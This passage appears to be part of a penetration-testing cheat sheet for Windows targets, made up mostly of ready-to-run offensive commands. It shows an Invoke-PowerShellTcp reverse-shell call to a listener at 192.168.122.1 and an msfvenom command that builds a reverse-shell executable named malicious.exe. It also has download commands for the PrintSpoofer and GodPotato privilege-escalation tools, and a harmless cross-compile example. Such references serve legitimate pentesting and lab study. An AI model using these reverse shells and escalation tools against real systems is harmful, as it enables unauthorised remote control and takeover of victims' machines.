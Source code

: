 ```powershell
. .\Invoke-PowerShellTcp
```
- The extra `.` is used to import all of the modules.

```powershell
Invoke-PowerShellTcp -Reverse -IPAddress 192.168.122.1 -Port 4321
```

###  msfvenom

Used to generate various malicious payloads.
```powershell
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.122.1 LPORT=7777 -f exe -o malicious.exe
```

### mingw32

Cross compiler `linux->windows`.
```powershell
sudo pacman -S mingw-w64-gcc
```

```c
#include <stdio.h>

int main(void) {
	printf("Hello World!\n");
	return 0;
}
```

```powershell
x86_64-w64-mingw32-g++ hello.c -static -o hello
```

### PrintSpoofer

Tool used to exploit the `SeImpersonatePrivilege`.

```powershell
iwr -uri "https://github.com/itm4n/PrintSpoofer/releases/download/v1.0/PrintSpoofer32.exe" -Outfile PrintSpoofer32.exe
```

```powershell
iwr -uri "https://github.com/itm4n/PrintSpoofer/releases/download/v1.0/PrintSpoofer64.exe" -Outfile PrintSpoofer64.exe
```

### GodPotato

Tool used to exploit the `SeImpersonatePrivilege`.
```powershell
iwr -uri "https://github.com/BeichenDream/GodPotato/releases/download/V1.20/GodPotato-NET2.exe" -Outfile GodPotato-NET2.exe
```
